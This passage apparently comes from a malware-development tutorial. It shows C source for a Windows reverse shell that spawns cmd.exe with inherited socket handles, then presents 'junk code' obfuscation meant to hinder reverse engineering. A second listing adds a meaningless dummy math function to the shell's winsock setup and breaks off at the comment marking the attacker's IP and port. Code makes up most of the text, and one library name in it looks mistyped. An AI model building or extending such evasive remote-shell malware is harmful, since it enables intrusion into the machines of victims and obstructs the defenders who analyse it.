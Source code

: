 ```c 
  CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &startupInfo, &processInfo);
  exit(0);
}
```

To obfuscate the opcode/assembly code we can employ multiple techniques, such as inserting useless instructions, modifying control flow and encrypting sections of the code.

### method 1 : junk code 

Here function *dummyFunction()* which makes meaningless calculations that don't affect main logic of malware but complicate its reverse engineering.

```c 

#include <winsock2.h>
#include <windows.h>
#include <math.h>
#include <stdio.h>
#pragma comment(lib, "w2_32")

// define a dummy function with math operations
void dummyFunction() {
  volatile int x = 0;
  x += 1;
  x -= 1;
  x *= 2;
  x /= 2;

  // Additional complex math operations
  double y = 2.5;
  double z = 3.7;
  double result = 0.0;

  // Perform math operations
  result = sqrt(pow(y, 2) + pow(z, 2)); // Calculate square root of sum of squares
  result = sin(result); // Calculate sine of the result
  result = cos(result); // Calculate cosine of the result
  result = tan(result); // Calculate tangent of the result

  // Use the result to perform more operations
  for (int i = 0; i < 10; ++i) {
    result *= i;
    result /= (i + 1);
    result += i;
  }

  // Use the final result to perform some conditional operations
  if (result > 100) {
    result -= 100;
  } else {
    result += 100;
  }
}

WSADATA socketData;
SOCKET mainSocket;
struct sockaddr_in connectionAddress;
STARTUPINFO startupInfo;
PROCESS_INFORMATION processInfo;

int main(int argc, char* argv[]) {
  
  // ip and port details for the attacker's machine
```